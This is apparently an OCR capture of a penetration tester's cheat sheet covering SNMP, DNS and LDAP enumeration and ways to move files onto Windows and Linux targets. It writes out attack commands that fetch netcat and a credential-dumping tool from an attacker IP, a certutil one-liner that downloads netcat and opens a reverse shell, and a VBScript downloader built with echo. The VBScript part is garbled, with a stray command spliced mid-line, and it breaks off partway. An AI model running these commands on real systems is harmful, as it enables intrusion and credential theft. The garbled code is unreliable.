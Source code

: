 
    SNMP V3
       •  nmap -p 161 --script=snmp-info $ip
       • default creds:
             ▪ /usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt

-------------------------------------------------------------------------------------------------------------------------------------

DOMAIN
    
    Leak DC hostname:
       • noslookup
            server 10.10.10.172
            set type=ns
            10.10.10.172
            127.0.0.1
   
    Nmap:
       •  nmap -p 53 --script=*dns* -vv -oN dns $ip


-------------------------------------------------------------------------------------------------------------------------------------

LDAP/Active Directory

    --Look for anonymous bind
       •  ldapsearch -x -b "dc=megabank,dc=local" "*" -h $ip


-------------------------------------------------------------------------------------------------------------------------------------

FILE TRANSFER


    Simple Servers:
       •  python -m SimpleHTTPServer 80
       •  python -m pyftpdlib -p 21 -w -d /tmp
       •  ptftpd -p 69  -v eth0 /tmp
       •  impacket-smbserver -username guest -password guest -smb2support  share  $(pwd) //  Might need to remove -smb2support option

    Tools:
       •  Linux & Windows ( Newer Windows versions only )
             ▪  wget http://10.11.0.106/nc.exe -O nc.exe
             ▪  curl http://10.11.0.106/nc.exe  -o nc.exe
       • Windows ( Should work on most Windows versions)
             ▪powershell (New-Object System.Net.WebClient).DownloadFile("https://10.10.10.144/test.txt", "test.txt")
             ▪net use Z: \\computer_name\share_name    //Mount smb share
             ▪$pass= "guest" | ConvertTo-SecureString -AsPlainText -Force
              $cred = New-Object System.Management.Automation.PsCredential('guest',$pass)
              New-PSDrive -name guest -root \\10.10.15.53\share -Credential $cred -PSProvider "filesystem"
             ▪certutil.exe -urlcache -split -f "http://10.11.0.106:8000/nc.exe" nc.exe && nc.exe -nv 10.11.0.106 443 -e cmd.exe
             ▪VBscript
                    → echo strUrl = WScript.Arguments.Item(0) > wget.vbs
                        echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
                        echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
                        echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
                        echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
                        echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
                        echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
                        echo Err.Clear >> wget.vbs
                        echo Set http = Nothing >> wget.vbs
                        echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
                        echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
                        echcscript wget.vbs http://10.11.0.6/wce32_upx.exe wce32_upex.exe If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
                        echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
                        echo http.Open "GET", strURL, False >> wget.vbs